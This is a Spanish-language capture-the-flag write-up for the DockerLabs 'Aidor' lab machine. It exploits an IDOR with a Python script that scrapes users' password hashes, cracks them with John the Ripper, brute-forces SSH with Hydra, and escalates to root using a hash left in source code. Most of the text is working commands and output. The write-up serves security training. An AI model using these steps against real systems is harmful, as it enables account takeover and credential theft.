

# 🖥️ Writeup - Aidor 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip aidor.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh aidor.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,5000 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-27 17:22 CET
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7 (protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.13.5)
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Werkzeug/3.1.3 Python/3.13.5
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
```

Identificamos los puertos `22` y `5000` abiertos.

Accedemos a través del puerto `5000` y encontramos un panel de inicio de sesión.


Vemos que en la parte inferior indica que nos podemos registrar, así que lo hacemos con un usuario de prueba.


Procedemos a iniciar sesión con la cuenta que acabamos de crear y accedemos al dashboard.


Una vez en el dashboard vemos nuestro nombre de usuario y nuestra contraseña actual (el `hash`).
Sin embargo, nos llama mucho más la atención otra cosa, la `URL`:

```
http://172.17.0.2:5000/dashboard?id=55
```

Esta nos indica que nuestro usuario tiene el identificador 55. Vamos a comprobar si la página sufre de una vulnerabilidad `IDOR`, modificando manualmente el identificador de la `URL` para intentar acceder a cuentas ajenas.

# EXPLOTACIÓN IDOR



Como podemos ver, al cambiar el `ID` de 55 a 53, entramos en la cuenta de `pepe` y podemos visualizar su contraseña hasheada.

Probamos con los identificadores `0` y `1` buscando una cuenta de `administrador`, pero no encontramos ninguna.
Verificamos manualmente que existen usuarios para los identificadores del 3 al 54.

Lo que nos interesa sobre todo es obtener el `hash` de la contraseña de cada usuario. Para ello, y para evitar hacerlo manualmente, elaboramos un script en `Python` (con ayuda de la IA) que extrae el `hash` de cada usuario y lo almacena en un archivo `.txt`.

Script:
```py
import requests
from bs4 import BeautifulSoup
import time

# --- CONFIGURACIÓN ---
BASE_URL = "http://172.17.0.2:5000/dashboard"
COOKIES = {
    'session': 'eyJ1c2VyX2lkIjo1NX0.aSiFfA.VZFwee1AxUAsTXqtH3QNCuy8oD4'
}
OUTPUT_FILE = "hashes.txt"

def main():
    print(f"[*] Iniciando ataque IDOR para extraer hashes (IDs 3-54)...")
    
    with open(OUTPUT_FILE, "w") as f:
        for user_id in range(3, 55):
            
            params = {'id': user_id}
            
            try:
                response = requests.get(BASE_URL, params=params, cookies=COOKIES)
                
                if response.status_code == 200:
                    soup = BeautifulSoup(response.text, 'html.parser')
                    
                    hash_div = soup.find('div', class_='password-hash')
                    
                    if hash_div:
                       
                        hash_text = hash_div.text.strip()
                        
                        line = f"user_{user_id}:{hash_text}"
                        print(f"[+] ID {user_id}: {hash_text[:15]}...") 
                        f.write(line + "\n")
                    else:
                        print(f"[-] ID {user_id}: No se ha encontrado el div 'password-hash'")
                else:
                    print(f"[!] ID {user_id}: Error de estado {response.status_code}")

            except Exception as e:
                print(f"[!] Error de connexión con ID {user_id}: {e}")

    print(f"\n[*] Proceso finalizado. Hashes guardados en '{OUTPUT_FILE}'")

if __name__ == "__main__":
    main()
```

A continuación, ejecutamos el script.

```bash
python3 hash_extract.py
```

Info:
```
[*] Iniciando ataque IDOR para extraer hashes (IDs 3-54)...
[+] ID 3: 5e884898da28047...
[+] ID 4: 5e884898da28047...
[+] ID 5: 5e884898da28047...
[+] ID 6: 5e884898da28047...
[+] ID 7: 5e884898da28047...
[+] ID 8: 5e884898da28047...
[+] ID 9: 5e884898da28047...
[+] ID 10: 5e884898da28047...
[+] ID 11: 5e884898da28047...
[+] ID 12: 5e884898da28047...
[+] ID 13: 5e884898da28047...
[+] ID 14: 5e884898da28047...
[+] ID 15: 5e884898da28047...
[+] ID 16: 5e884898da28047...
[+] ID 17: 5e884898da28047...
[+] ID 18: 5e884898da28047...
[+] ID 19: 5e884898da28047...
[+] ID 20: 5e884898da28047...
[+] ID 21: 5e884898da28047...
[+] ID 22: 5e884898da28047...
[+] ID 23: 5e884898da28047...
[+] ID 24: 5e884898da28047...
[+] ID 25: 5e884898da28047...
[+] ID 26: 5e884898da28047...
[+] ID 27: d033e22ae348aeb...
[+] ID 28: 5e884898da28047...
[+] ID 29: 5e884898da28047...
[+] ID 30: 5e884898da28047...
[+] ID 31: 5e884898da28047...
[+] ID 32: 5e884898da28047...
[+] ID 33: 5e884898da28047...
[+] ID 34: 5e884898da28047...
[+] ID 35: 5e884898da28047...
[+] ID 36: 5e884898da28047...
[+] ID 37: 5e884898da28047...
[+] ID 38: 5e884898da28047...
[+] ID 39: 5e884898da28047...
[+] ID 40: 5e884898da28047...
[+] ID 41: 5e884898da28047...
[+] ID 42: 5e884898da28047...
[+] ID 43: 5e884898da28047...
[+] ID 44: 5e884898da28047...
[+] ID 45: 5e884898da28047...
[+] ID 46: 5e884898da28047...
[+] ID 47: 5e884898da28047...
[+] ID 48: 5e884898da28047...
[+] ID 49: 5e884898da28047...
[+] ID 50: 5e884898da28047...
[+] ID 51: 5e884898da28047...
[+] ID 52: dd0284ae23bfe3e...
[+] ID 53: 7c9e7c1494b2684...
[+] ID 54: 7499aced43869b2...

[*] Proceso finalizado. Hashes guardados en 'hashes.txt'
```

# HASH CRACKING

Ya tenemos todos los hashes recopilados en el archivo `hashes.txt`, por lo que intentamos crackearlos con `John The Ripper`.

```bash
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Info:
```
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (user_3)     
chocolate        (user_54)     
pingu            (user_52)     
pepe             (user_53)     
4g 0:00:00:00 DONE (2025-11-27 18:21) 200.0g/s 6553Kp/s 6553Kc/s 11468KC/s Dominic1..kovacs
Warning: passwords printed above might not be all those cracked
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

Conseguimos obtener cuatro contraseñas, correspondientes a los usuarios con `ID` 3, 52, 53 y 54.
Verificamos manualmente qué nombres de usuario corresponden a estos `IDs`.

Quedaría así:
```
juan.perez : password
pingu : pingu
pepe : pepe
aidor : chocolate
```

A continuación, guardamos los usuarios y las contraseñas en dos listas separadas para realizar un ataque de `fuerza bruta` al servicio `SSH`.

```bash
nano users.txt
```

```
juan.perez
pingu
pepe
aidor
```

```bash
nano pass.txt
```

```
password
pingu
pepe
chocolate
```

Lanzamos el ataque contra el puerto `22`.

```bash
hydra -L users.txt -P pass.txt ssh://172.17.0.2 -t 50
```

Info:
```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-27 18:50:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 25 tasks per 1 server, overall 25 tasks, 25 login tries (l:5/p:5), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: aidor   password: chocolate
```

Encontramos unas credenciales válidas para el usuario `aidor` : `chocolate`.

Accedemos vía `SSH`.

```bash
ssh aidor@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

En el directorio `/home` localizamos un archivo llamado `app.py`. Al leer su contenido, vemos lo siguiente:


```
cursor.execute('SELECT COUNT(*) FROM users')
        count = cursor.fetchone()[0]
        # if count == 0:
        #     cursor.execute('''
        #     INSERT INTO users (username, password, email) VALUES
        #     ('root', 'aa87ddc5b4c24406d26ddad771ef44b0', 'admin@example.com')
        #     ''')  # La contraseña "admin" es hash SHA-256
        conn.commit()
        conn.close()
```

Observamos una contraseña hasheada asignada al usuario `root`.
Aunque el comentario en el código indica que es un `hash SHA-256`, para que fuese así debería tener una longitud de 64 caracteres.
Sin embargo, el `hash` que tenemos delante tiene 32 caracteres, por lo que deducimos que probablemente se trate de un `hash MD5`.

Guardamos el hash en un archivo `hash.txt` con el formato `root:aa87ddc5b4c24406d26ddad771ef44b0`.
Utilizamos `John The Ripper` para crackearlo.

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


Info:
```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
estrella         (root)     
1g 0:00:00:00 DONE (2025-11-27 22:41) 100.0g/s 38400p/s 38400c/s 38400C/s 123456..michael1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

Obtenemos exitosamente las credenciales de `root` : `estrella`.
Finalmente, procedemos a autenticarnos con dichas credenciales.

```bash
su root
```

```
root@94f15ac76968:/home# whoami
root
root@94f15ac76968:/home#
```

Ya somos root!